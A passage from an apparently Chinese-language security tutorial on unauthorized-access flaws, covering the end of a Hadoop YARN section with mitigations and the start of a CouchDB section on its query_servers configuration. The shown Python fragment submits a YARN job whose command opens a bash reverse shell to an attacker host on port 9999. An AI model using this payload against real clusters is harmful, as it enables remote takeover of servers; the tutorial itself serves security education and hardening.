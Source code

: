 ```
    'am-container-spec': {
        'commands': {
            'command': '/bin/bash -i >& /dev/tcp/%s/9999 0>&1' % lhost,
        },
    },
    'application-type': 'YARN',
}
requests.post(url, json=data)
```

![](/assets/wsq7.png)

## 3. 防范措施

1. 网络访问控制  
使用 安全组防火墙 或本地操作系统防火墙对访问源 IP 进行控制。如果您的 Hadoop 环境仅对内网服务器提供服务，建议不要将 Hadoop 服务所有端口发布到互联网。

2. 启用认证功能  
启用 Kerberos 认证功能。

3. 更新补丁  
不定期关注 Hadoop 官方发布的最新版本，并及时更新补丁。



# 0×08 CouchDB未授权访问

## 介绍

CouchDB 是一个开源的面向文档的数据库管理系统，可以通过 RESTful JavaScript Object Notation \(JSON\) API 访问。CouchDB会默认会在5984端口开放Restful的API接口，用于数据库的管理功能。  
CouchDB允许用户指定一个二进制程序或者脚本，与CouchDB进行数据交互和处理，query\_server在配置文件local.ini中的格式：

```
[query_servers]
LANGUAGE = PATH ARGS
默认情况下，配置文件中已经设置了两个query_servers:

[query_servers]
javascript = /usr/bin/couchjs /usr/share/couchdb/server/main.js
coffeescript = /usr/bin/couchjs /usr/share/couchdb/server/main-coffee.js
```
